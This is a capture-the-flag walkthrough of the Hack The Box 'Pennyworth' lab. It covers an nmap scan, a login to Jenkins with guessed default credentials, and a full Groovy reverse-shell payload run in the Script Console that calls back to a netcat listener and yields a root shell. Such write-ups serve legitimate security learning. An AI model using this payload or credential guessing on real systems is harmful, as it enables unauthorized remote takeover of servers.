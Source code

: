 ## Reconnaissance

Kicking off with a simple Nmap scan...

__Nmap Scan__
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ sudo nmap -sC -sV -oN nmap.txt 10.129.36.207
[sudo] password for darshan:
Nmap scan report for 10.129.36.207
Host is up (0.31s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/21%OT=8080%CT=1%CU=37255%PV=Y%DS=2%DC=I%G=Y%TM=63CB9
OS:1D2%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M537ST11NW7%O2=M537ST11NW7%O3=M537NNT11NW7%O4=M537ST11NW7%O5=M537S
OS:T11NW7%O6=M537ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M537NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=
OS:G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 21 02:18:42 2023 -- 1 IP address (1 host up) scanned in 55.12 seconds

```

Visiting the website on port 8080, I found a `Jenkins Login Page`. So I tried entering common username and password combination to see if I could bypass the login page (admin:password, admin:admin, root:root) 

![pw-1](https://user-images.githubusercontent.com/87711310/214796032-93ca6d38-a204-46a2-a785-9c97e41d7f52.png)

And luckily after a few tries I was able to login in using `root:password` as credentials.

![pw-2](https://user-images.githubusercontent.com/87711310/214796048-c2b27452-de0c-409b-b912-a447d33f1d6b.png)

After looking around the website for a while, we find this interesting section of the website:

![pw-3](https://user-images.githubusercontent.com/87711310/214796056-8e16f2f7-f140-4d4c-b1d9-1264b31523e5.png)

To get there, click on `Manage Jenkins` on the left pane, then scroll down all the way to the bottom of the page and click on `Script Console`. 

On Googling "Jenkins exploit" and I found this [link](https://github.com/gquere/pwn_jenkins) and scrolled down to the reverse shell from Groovy code:

```groovy
String host="my I>";
int port=8888;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Copy paste the code above to the Script Console section of the website. This should look something like this:

![pw-4](https://user-images.githubusercontent.com/87711310/214796061-b3f71ab8-e04b-44b4-b4af-ee355b82fe99.png)

Started a netcat listener on my machine
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/Pennyworth]
└─$ nc -lvnp 8888                              
listening on [any] 8888 ..
```

Now, I went back and ran the script from the Jenkins page.

And returning to my netcat, I got back a reverse shell.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/Pennyworth]
└─$ nc -lvnp 8888                              
listening on [any] 8888 ...
connect to [10.10.16.42] from (UNKNOWN) [10.129.36.207] 43016
whoami
root
```

Now that I had a root privileged reverse shell, I could retrieve the flag and complete the exercise.

```
cd root
ls  
flag.txt
snap
cat flag.txt
[REDACTED]
```

